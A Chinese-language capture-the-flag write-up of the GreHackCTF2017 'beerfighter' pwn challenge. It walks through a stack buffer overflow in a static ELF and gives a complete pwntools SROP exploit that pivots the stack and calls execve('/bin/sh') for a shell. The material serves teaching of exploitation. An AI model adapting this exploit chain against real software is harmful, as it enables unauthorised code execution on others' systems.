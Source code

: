 # 6.1.5 pwn GreHackCTF2017 beerfighter

- [题目解析](#题目解析)
- [Exploit](#exploit)


[下载文件](../src/writeup/6.1.5_pwn_grehackctf2017_beerfighter)

## 题目解析
```
$ file game 
game: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=1f9b11cb913afcbbbf9cb615709b3c62b2fdb5a2, stripped
$ checksec -f game 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FORTIFY  Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No       0               0       game
```
64 位，静态链接，stripped。

既然是个小游戏，先玩一下，然后发现，进入 City Hall 后，有一个可以输入字符串的地方，然而即使我们什么也不输入，直接回车，在 Leave the town 时也会出现 Segmentation fault：
```
[0] The bar
[1] The City Hall
[2] The dark yard
[3] Leave the town for ever
Type your action number > 1
Welcome Newcomer! I am the mayor of this small town and my role is to register the names of its citizens.
How should I call you?
[0] Tell him your name
[1] Leave
Type your action number > 0
Type your character name here >

...

[0] The bar
[1] The City Hall
[2] The dark yard
[3] Leave the town for ever
Type your action number > 3
By !

Segmentation fault (core dumped)
```

程序大概清楚了，看代码吧，经过一番搜索，发现了一个很有意思的函数：
```
[0x00400d8e]> pdf @ fcn.00400773
/ (fcn) fcn.00400773 15
|   fcn.00400773 ();
|              ; CALL XREF from 0x00400221 (fcn.004001f3)
|              ; CALL XREF from 0x004002b6 (fcn.00400288)
|           0x00400773      4889f8         mov rax, rdi
|           0x00400776      4889f7         mov rdi, rsi
|           0x00400779      4889d6         mov rsi, rdx
|           0x0040077c      4889ca         mov rdx, rcx
|           0x0040077f      0f05           syscall
\           0x00400781      c3             ret
```
`syscall;ret`，你想到了什么，对，就是前面讲的 SROP。

其实前面的输入一个字符串，程序也是通过 syscall 来读入的，从函数 `0x004004b8` 开始仔细跟踪代码后就会知道，系统调用为 `read()`。

```
gdb-peda$ pattern_offset $ebp
1849771374 found at offset: 1040
```
缓冲区还挺大的，`1040+8=1048`。

好，现在思路已经清晰了，先利用缓冲区溢出漏洞，用 `syscall;ret` 地址覆盖返回地址，通过 frame\_1 调用 `read()` 读入 frame_2 到 `.data` 段（这个程序没有`.bss`，而且`.data`可写），然后将栈转移过去，调用 `execve()` 执行“/bin/sh”，从而拿到 shell。

构造 sigreturn：
```
$ ropgadget --binary game --only "pop|ret"
...
0x00000000004007b2 : pop rax ; ret
```
```python
# sigreturn syscall
sigreturn  = p64(pop_rax_addr)
sigreturn += p64(constants.SYS_rt_sigreturn)    # 0xf
sigreturn += p64(syscall_addr)
```

然后是 frame_1，通过设定 `frame_1.rsp = base_addr` 来转移栈：
```python
# frame_1: read frame_2 to .data
frame_1 = SigreturnFrame()
frame_1.rax = constants.SYS_read
frame_1.rdi = constants.STDIN_FILENO
frame_1.rsi = data_addr
frame_1.rdx = len(str(frame_2))
frame_1.rsp = base_addr             # stack pivot
frame_1.rip = syscall_addr
```

frame_2 执行 `execve()`：
```python
# frame_2: execve to get shell
frame_2 = SigreturnFrame()
frame_2.rax = constants.SYS_execve
frame_2.rdi = data_addr
frame_2.rsi = 0
frame_2.rdx = 0
frame_2.rip = syscall_addr
```

Bingo!!!
```
$ python2 exp.py 
[*] '/home/firmy/Desktop/game'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './game': pid 12975
[*] Switching to interactive mode
By !

$ whoami
firmy
```


## Exploit
完整的 exp 如下：
```python
from pwn import *

elf = ELF('./game')
io = process('./game')
io.recvuntil("> ")
io.sendline("1")
io.recvuntil("> ")
io.sendline("0")
io.recvuntil("> ")

context.clear()
context.arch = "amd64"

data_addr = elf.get_section_by_name('.data').header.sh_addr + 0x10
base_addr = data_addr + 0x8   # new stack address

# useful gadget
pop_rax_addr = 0x00000000004007b2   # pop rax ; ret
syscall_addr = 0x000000000040077f   # syscall ;

# sigreturn syscall
sigreturn  = p64(pop_rax_addr)
sigreturn += p64(constants.SYS_rt_sigreturn)    # 0xf
sigreturn += p64(syscall_addr)

# frame_2: execve to get shell
frame_2 = SigreturnFrame()
frame_2.rax = constants.SYS_execve
frame_2.rdi = data_addr
frame_2.rsi = 0
frame_2.rdx = 0
frame_2.rip = syscall_addr

# frame_1: read frame_2 to .data
frame_1 = SigreturnFrame()
frame_1.rax = constants.SYS_read
frame_1.rdi = constants.STDIN_FILENO
frame_1.rsi = data_addr
frame_1.rdx = len(str(frame_2))
frame_1.rsp = base_addr             # stack pivot
frame_1.rip = syscall_addr

payload_1  = "A" * 1048
payload_1 += sigreturn
payload_1 += str(frame_1)

io.sendline(payload_1)
io.recvuntil("> ")
io.sendline("3")

payload_2  = "/bin/sh\x00"
payload_2 += sigreturn
payload_2 += str(frame_2)

io.sendline(payload_2)
io.interactive()
```
